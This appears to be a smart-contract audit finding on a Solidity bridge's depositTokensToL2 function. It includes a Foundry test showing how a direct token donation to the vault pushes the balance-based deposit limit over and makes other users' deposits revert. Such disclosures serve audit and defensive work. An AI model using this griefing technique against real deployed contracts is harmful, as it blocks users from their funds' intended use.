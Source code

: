 ### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L71

## Summary

Malicious actor can DOS attack depositTokensToL2


## Vulnerability Details

The function depositTokensToL2 has a deposit limit that limits the amount of funds that a user can deposit into the bridges shown here 


```
if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
```

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L71

The problem is that it uses the contract balance to track this invariant, opening the door for a malicious actor to make a donation to the vault contract to ensure that the deposit limit is reached causing a potential victim's harmless deposit to unexpectedly revert. See modified foundry test below:



``` 
function testUserCannotDepositBeyondLimit() public {

        vm.startPrank(user2);

        uint DOSamount = 20;
        deal(address(token), user2, DOSamount);
        token.approve(address(token), 20);

        token.transfer(address(vault), 20);

        vm.stopPrank();


        vm.startPrank(user);
        uint256 amount = tokenBridge.DEPOSIT_LIMIT() - 9;
        deal(address(token), user, amount);
        token.approve(address(tokenBridge), amount);

        vm.expectRevert(L1BossBridge.L1BossBridge__DepositLimitReached.selector);
        tokenBridge.depositTokensToL2(user, userInL2, amount);
        vm.stopPrank();

       
    }
```
